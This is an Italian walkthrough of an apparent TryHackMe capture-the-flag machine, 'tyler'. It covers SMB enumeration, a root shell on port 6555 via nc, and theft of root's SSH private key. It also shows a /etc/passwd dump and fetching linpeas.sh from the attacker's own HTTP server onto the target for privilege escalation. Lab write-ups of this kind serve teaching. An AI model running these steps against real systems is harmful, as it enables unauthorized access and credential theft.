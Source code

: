 # Tyler

## ENUMERAZIONE
partiamo con una enumerazione e scan dei serizi


```bash
nmap tyler.thm -sV -sC 
```
ed ecco spuntare a schermo la porta 445

colleghiamoci e vediamo cosa ci offre

## SMB

```bash
smbclient -L \\\\tyler.thm\\
```

guardiamo se collegandoci in anonimo in tutte e tre le directory abbiamo qualche hint
```bash
smbclient \\\\tyler.thm\\public
```

ecco la prima flag il file alert invece nulla di interessante. bene...cambiamo approccio

```bash
nmap tyler.thm -p-
```

ecco un altra porta 6555

## PORTA 6555

```bash
nc tyler.thm 6555
```
molto bene....abbiamo un accesso come root!!! entriamo nella cartella root ecco davanti a noi un altra flag

ma non abbiamo il file king.txt??

controlliamo meglio dall'ssh

```bash
cd /root/.ssh
cat id_rsa.pub

ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQC+0qTaj8PluXd4pyYNMGPLbP2ZTwh4I8hVCNnkzaL7oXXbZolVtehOCawy+DOgnccIEHUqMgEvOEEs+2u/+UpWxL7t1QSnyLvMrMKAnLXBQDzr2uJx7Ljhli8wv7nIX83EcpzU7M2bViGGpXhxOAQa6Ud7pRVXekh71qZI22I7Zg/NPPSzsMbm0CQrJ9Q+J2kugu/EK4VQsR1COMs+7ssd0gkHQ8PooLHr1+x4Trf+DRb/H02hjl1TaZ589CixlQQNUfHzLjXnnuE7qslcX8c6Oe7sv7e808M87ZokdhrifWZrfwCxaZ54D6xWYdSScYzMKqLh0HQxO3KokicRgTJx tdurden@tyler
```

ecco la soluzione probabilmente il root di tdurden è separato dalla macchina main 

```bash
cd /root/.ssh
cat id_rsa
```
prendiamo l'id_rsa e colleghiamoci in ssh

ricordatevi di dare i giusti permessi all'id_rsa sulla vostra macchina 

quindi 
```bash
chmod 600 id_rsa
```
successivamente 
## SSH
```bash
ssh tdurden@tyler.thm -i id_rsa
```
facciamo un controllo degli utenti 

```bash
cat /etc/passwd
```
ecco l'output andiamo ad analizzarlo
```bash
root:x:0:0:root:/root:/bin/bash
bin:x:1:1:bin:/bin:/sbin/nologin
daemon:x:2:2:daemon:/sbin:/sbin/nologin
adm:x:3:4:adm:/var/adm:/sbin/nologin
lp:x:4:7:lp:/var/spool/lpd:/sbin/nologin
sync:x:5:0:sync:/sbin:/bin/sync
shutdown:x:6:0:shutdown:/sbin:/sbin/shutdown
halt:x:7:0:halt:/sbin:/sbin/halt
mail:x:8:12:mail:/var/spool/mail:/sbin/nologin
operator:x:11:0:operator:/root:/sbin/nologin
games:x:12:100:games:/usr/games:/sbin/nologin
ftp:x:14:50:FTP User:/var/ftp:/sbin/nologin
nobody:x:99:99:Nobody:/:/sbin/nologin
systemd-network:x:192:192:systemd Network Management:/:/sbin/nologin
dbus:x:81:81:System message bus:/:/sbin/nologin
polkitd:x:999:998:User for polkitd:/:/sbin/nologin
sshd:x:74:74:Privilege-separated SSH:/var/empty/sshd:/sbin/nologin
postfix:x:89:89::/var/spool/postfix:/sbin/nologin
chrony:x:998:996::/var/lib/chrony:/sbin/nologin
tdurden:x:1000:1000:Tyler Durden:/home/tdurden:/bin/bash
apache:x:48:48:Apache:/usr/share/httpd:/sbin/nologin
narrator:x:1002:1002::/home/narrator:/bin/bash
tss:x:59:59:Account used by the trousers package to sandbox the tcsd daemon:/dev/null:/sbin/nologin
nginx:x:997:994:Nginx web server:/var/lib/nginx:/sbin/nologin
mysql:x:27:27:MariaDB Server:/var/lib/mysql:/sbin/nologin
librenms:x:996:993::/opt/librenms:/bin/bash

```

si siamo sulla macchina main facciamo il privesc

## PRIVILEGE ESCALATION
andiamo su una cartella dove possiamo caricare file e carichiamo il programma linpeas.sh (scaricatevelo prima!!)

```bash
sulla nostra macchina nella cartella dove è presente linpeas.sh facciamo: python -m http.server 80
sulla macchina tyler invece: wget http://indirizzoipnostro/linpeas.sh
```
ora diamo i permessi di avvio a linpeas.sh
```bash
chmod +x linpeas.sh
```
abbiamo trovato un vulnerabilità nel comando vim (controllate gtfo.bins ed è fatta)
